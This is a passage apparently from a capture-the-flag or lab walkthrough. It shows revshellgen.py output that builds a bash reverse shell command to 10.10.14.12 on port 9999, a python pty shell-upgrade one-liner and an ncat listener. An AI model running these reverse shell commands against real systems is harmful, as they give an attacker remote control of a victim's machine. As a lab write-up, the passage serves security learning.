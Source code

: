 Finally, we can pass a reverse shell payload. We can crate our payload using [revshellgen.py](https://github.com/t0thkr1s/revshellgen):

```bash
---------- [ SELECT IP ] ----------

[   ] 172.31.150.94 on eth0
[   ] 172.17.0.1 on docker0
[ x ] 10.10.14.12 on tun0
[   ] Specify manually

---------- [ SPECIFY PORT ] ----------

[ # ] Enter port number : 9999

---------- [ SELECT COMMAND ] ----------

[ x ] unix_bash
[   ] unix_java
[   ] unix_nc_mkfifo
[   ] unix_nc_plain
[   ] unix_perl
[   ] unix_php
[   ] unix_python
[   ] unix_ruby
[   ] unix_telnet
[   ] windows_powershell

---------- [ SELECT ENCODE TYPE ] ----------

[ x ] NONE
[   ] URL ENCODE
[   ] BASE64 ENCODE

---------- [ FINISHED COMMAND ] ----------

bash -i >& /dev/tcp/10.10.14.12/9999 0>&1

[ ! ] Reverse shell command copied to clipboard!
[ + ] In case you want to upgrade your shell, you can use this:

python -c 'import pty;pty.spawn("/bin/bash")'

---------- [ SETUP LISTENER ] ----------

[ x ] yes
[   ] no
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:9999
Ncat: Listening on 0.0.0.0:9999
```
